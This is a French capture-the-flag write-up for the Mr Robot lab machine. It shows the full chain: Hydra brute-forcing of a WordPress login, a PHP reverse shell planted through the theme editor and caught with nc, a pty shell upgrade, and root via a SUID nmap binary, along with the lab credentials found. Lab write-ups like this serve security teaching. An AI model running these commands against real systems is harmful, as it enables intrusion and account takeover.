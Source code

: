 # MrRobot CTF Notes

## Clé 1

### Reconnaissance

```bash
nmap -sC -sV **IP**
```

On voit qu'on a une page HTTP.

Ensuite, on utilise la commande :

```bash
gobuster dir -u http://IP -w /usr/share/wordlists/dirbuster/LIST
```

Après avoir testé plusieurs répertoires, on arrive sur 'robots' :

On voit que la clé est dans le fichier, on a donc juste à accéder à :

```bash
http://IP/key-1-of-3.txt
```

## Clé 2

Ensuite, pour la deuxième clé, lorsque l'on a utilisé la commande dirbuster, on a aussi eu une page **wp-login.php** :

En se connectant, on obtient une page de connexion WordPress.

On va tenter de brute-forcer l'identifiant et le mot de passe avec l'outil hydra :

- Pour l'id :

```bash
hydra -L fsocity.dic -p test **IP** http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:Invalid username" -t 30
```

On obtient l'id : **Elliot**

- Pour le mot de passe :

```bash
hydra -l Elliot -P fsocity.dic **IP** http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:The password you entered for the username" -t 30
```

On obtient le mot de passe : **ER28-0652**

On arrive enfin à se connecter dans le dashboard WP.

Ensuite, après des recherches, on arrive finalement dans l'onglet 'Appearance' puis 'Editor' :

On choisit un fichier PHP et on y upload un reverse shell avec l'IP de la machine depuis laquelle on attaque :

[php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

Ensuite, on accède à la page où est uploadé le reverse shell :

```bash
http://IP/wp-includes/themes/TwentyFifteen/404.php
```

On met le port sur écoute :

```bash
nc -lvnp 1234
```

On obtient accès à la machine.

Maintenant, si on se déplace dans le système, on arrive dans /home et on a 2 fichiers, la deuxième clé et un fichier qui contient un hash MD5.

On décrypte ce fichier puisque l'on ne peut ouvrir la clé.

En allant sur un décrypteur MD5, on obtient :

```bash
robot:abcdefghijklmnopqrstuvwxyz
```

On essaie de se connecter avec `su robot` et le mot de passe, mais on nous refuse l'accès. Il faut être dans un terminal, ainsi on utilise :

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
```

Après cela, on exécute de nouveau la connexion, ça marche et maintenant on ouvre le fichier 'key-2-of-3.txt' !

## Clé 3

On cherche des failles depuis des binaires SUID puisque `sudo -l` ne fonctionne pas :

```bash
find / -perm -4000 2>/dev/null
```

Maintenant, on voit que /usr/local/bin/nmap est suspect.

On va sur GTFOBins pour voir l'exploitation du binaire :

On voit qu'il suffit de taper ces deux commandes :

```bash
nmap --interactive
```

Puis :

```bash
!sh
```

On a accès en tant que root :

On accède à /root et on peut ouvrir la dernière clé 'key-3-of-3.txt' !

Félicitations, on a terminé !